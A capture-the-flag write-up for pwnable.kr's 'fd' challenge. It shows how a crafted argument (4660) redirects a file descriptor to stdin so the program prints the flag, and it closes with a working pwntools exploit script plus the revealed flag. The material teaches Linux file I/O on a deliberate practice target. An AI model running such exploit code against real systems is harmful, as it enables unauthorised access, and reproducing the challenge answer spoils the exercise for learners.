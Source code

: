 # fd

## Instructions

Mommy! what is a file descriptor in Linux?

```
ssh fd@pwnable.kr -p2222
(pw: guest)
```

## step-by-step

Following the game instructions, you need to connect to a remote machine using the following command:

```
┌──(kali㉿kali)-[~/pwnable.kr/fd]
└─$ ssh fd@pwnable.kr -p2222
```

> [!WARNING]
> The password to access the remote machine is `guest`.

If everything went well you should get a result similar to this:

```
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|
                                                                     
- Site admin : daehee87@khu.ac.kr
- irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
You have mail.
Last login: Mon Jul  1 03:16:08 2024 from 101.176.80.154
fd@pwnable:~$
```

Let's try using the `ls -la` command to see which files we have access to:

```
fd@pwnable:~$ ls -la
total 40
drwxr-x---   5 root   fd   4096 Oct 26  2016 .
drwxr-xr-x 116 root   root 4096 Oct 30  2023 ..
d---------   2 root   root 4096 Jun 12  2014 .bash_history
-r-sr-x---   1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r--   1 root   root  418 Jun 11  2014 fd.c
-r--r-----   1 fd_pwn root   50 Jun 11  2014 flag
-rw-------   1 root   root  128 Oct 26  2016 .gdb_history
dr-xr-xr-x   2 root   root 4096 Dec 19  2016 .irssi
drwxr-xr-x   2 root   root 4096 Oct 23  2016 .pwntools-cache
```

as you can imagine, the flag we are looking for is found inside the `flag` file, however, as you can imagine from the permissions, we cannot view the content, in fact using the `cat flag` command we obtain:

```
fd@pwnable:~$ cat flag 
cat: flag: Permission denied
```

We therefore note that there is an ELF file, i.e. `fd`, correlated by the `fd.c` source whose contents we can view using the `cat fd.c` command:

```
fd@pwnable:~$ cat fd.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

Well, let's just focus on the C language, so I'll write the code more plainly:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

> [!NOTE]
> I apologize for the very messy style but it wouldn't make sense to fix it because it is important to develop the ability to read, modify and exploit code written by others.

In this code we notice:

1. The ability to pass a number via command line, using `argv`.
2. That for the calculation of the file descriptor `fd` we have the difference between the string passed from the command line (converted into a number via `atoi()`) and the hexadecimal number `0x1234`.
3. That by inserting the string `LETMEWIN` it is possible to execute the command `system("/bin/cat flag");` which coincidentally is exactly what we need to find the flag.

Therefore, it is clear that to exploit this code to our advantage we will need to enter a number from the command line that allows us to redirect the `fd` file descriptor in our favor. Well this number is precisely the conversion into an integer of the number `0x1234` which can be obtained using the following command:

```
┌──(kali㉿kali)-[~/pwnable.kr/fd]
└─$ python -c "print(0x1234)"
4660
```

In fact, the integer difference between `4660` and itself results in `fd = 0`. This means that the file descriptor is associated with `stdin`. So the `read()` function will read from `stdin` any data that we decide to write and in particular we should write the string `LETMEWIN`. Let's see it in action:

```
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```

Perfect, everything went according to plan! So as you can imagine the flag you are looking for is the following sentence:

```
mommy! I think I know what a file descriptor is!!
```

## Exploitation

Finally, we can use the following exploit, written in `Python`, to replicate the vulnerability in a fully automated way:

```python
from pwn import *

shell = ssh("fd", "pwnable.kr", password="guest", port=2222)
process = shell.process(executable="./fd", argv=["fd", "4660"])

process.sendline(b"LETMEWIN")
response = process.recvall().decode()
msg = response.split("\n")[0]
flag = response.split("\n")[1]
log.info(msg)
log.success(f"Flag: \"{flag}\"")

process.close()
shell.close()
```

then using the `python exploit.py` command we get:

```
[+] Connecting to pwnable.kr on port 2222: Done
[*] fd@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process bytearray(b'./fd') on pwnable.kr: pid 58012
[*] good job :)
[+] Flag: "mommy! I think I know what a file descriptor is!!"
[*] Stopped remote process 'fd' on pwnable.kr (pid 58012)
[*] Closed connection to 'pwnable.kr'
```
